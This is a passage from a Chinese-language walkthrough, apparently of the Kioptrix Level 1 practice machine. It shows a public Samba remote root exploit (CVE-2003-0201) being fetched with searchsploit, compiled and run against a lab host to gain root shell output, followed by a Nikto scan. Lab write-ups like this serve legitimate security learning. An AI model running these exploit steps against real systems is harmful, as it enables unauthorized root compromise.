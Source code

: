 ---------------------------------------------------------------------------- ---------------------------------
</code></pre>

通过searchsploit发现Samba这个版本服务存在一个RCE漏洞，将multiple/remote/10.c文件保存并用gcc编译它

```
┌──(root㉿kali)-[~/Desktop/test]
└─# searchsploit -m multiple/remote/10.c
  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
    Codes: OSVDB-4469, CVE-2003-0201
 Verified: True
File Type: C source, ASCII text
Copied to: /root/Desktop/test/10.c
                                                                                                            
┌──(root㉿kali)-[~/Desktop/test]
└─# gcc 10.c -o Samba
```

编译好了就可以对目标进行攻击

```
┌──(root㉿kali)-[~/Desktop/test]
└─# ./Samba -b0 -v 192.168.43.222
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
```

这里是拿到了一个root的权限

### 进一步枚举

使用nkito扫描一下

```
nikto -host 192.168.43.222 
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.43.222
+ Target Hostname:    192.168.43.222
+ Target Port:        80
+ Start Time:         2023-06-13 02:28:57 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ /: Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep  5 23:12:46 2001. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Apache is vulnerable to XSS via the Expect header. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3918
```